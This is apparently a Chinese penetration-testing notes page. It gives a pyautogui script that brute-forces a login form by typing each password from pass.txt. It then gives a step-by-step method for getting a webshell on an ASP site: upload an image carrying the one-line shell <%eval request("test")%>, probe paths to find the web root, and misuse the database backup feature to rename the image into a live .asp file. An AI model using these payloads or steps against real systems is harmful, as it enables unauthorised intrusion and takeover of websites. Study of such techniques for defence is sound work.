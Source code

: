 ```
time.sleep(5)

# 获取页面各元素的坐标
print (pg. position())

with open( 'pass.txt', 'r' ) as f1:
    list1 = f1. readlines( )
    for line in list1:
        line = line.strip()
# pyautogui.doubleClick(x=490，y=333) # 用户名
        pyautogui.click(x=1753, y=398)  # 密码
        pg .write(line)
        pyautogui.click(x=1450, y=413)
```


## 打点-数据库备份 -> getshell
- 整体利用思路
  - 编辑器上传`.JPG`图片马 -> 利用数据库备份功能将`.JPG`木马备份成`.asp`木马 -> getshell

- 编辑器上传图片马
  - 前端绕过：前端限制上传类型，图片码写入asp一句话 `<%eval request("test")%>` ，将文件名改成`tete.asp.JPG`上传
  - 成功上传，并返回了图片保存路径：`editor\/aaaa\/bbbb\/1234.jpg`
  - 拼接路径访问`http://ip/editor/aaaa/bbbb/1234.jpg`存在，说明`editor`在网站物理根路径下

- 发现备份数据文件功能，备份的源路径、目的路径和文件名可控
  
  <div align=center><img src="https://user-images.githubusercontent.com/84888757/174441521-55f11f96-ffc5-4fe2-bb56-67c01cc0c0af.png" /></div>

- 找寻根路径
  - 向上遍历当前数据库物理路径`data`，`http://ip/data` 返回403响应，说明存在`data`网站url
  - 继续向上遍历当前数据库物理路径`ksystem`，`http://ip/ksystem` 返回404响应，说明`ksystem`不在对外开放的网站url下，可能是网站物理根路径
  - 访问备份数据库目录`beidir`， `http://ip/beidir` 返回403响应，说明存在`beidir`网站url

> tips：判断路径`a`是否存在，可以访问 http://xx.com/a ，即使浏览器返回页面为空，但路径会自动添加/，变成http://xx.com/a/ ，那么`a`路径很可能存在。

- 利用数据库备份功能将`.JPG`木马备份成`.asp`木马
  - 将当前数据库路径设置成：`.JPG`木马上传后得到的路径 `D:\xxx\ksystem\editor\aaaa\bbbb\1234.jpg`
  - 将备份数据库的文件名后缀改成可解析的备份文件名`1234.asp`
  - 进行备份，提示备份成功
  - 连接http://xxx.com/备份文件路径/备份文件名.asp ，即 `http://xx.xx.xx.xx/beidir/muma.asp`


<div align=center><img src="https://user-images.githubusercontent.com/84888757/174442064-fd20704c-d577-4911-879f-e3333f4fc99f.png" /></div>

- 这里给出几个网上的例子
  - [Cookie注入漏洞 + 数据库备份 -> getshell](https://blog.csdn.net/weixin_40412037/article/details/112193916)
  - [数据库备份(f12更改源路径和目的路径) -> getshell](https://blog.csdn.net/weixin_34712106/article/details/113654555)
  - [后台备份数据库getshell(注意路径问题)](https://blog.51cto.com/u_15067230/4223667)

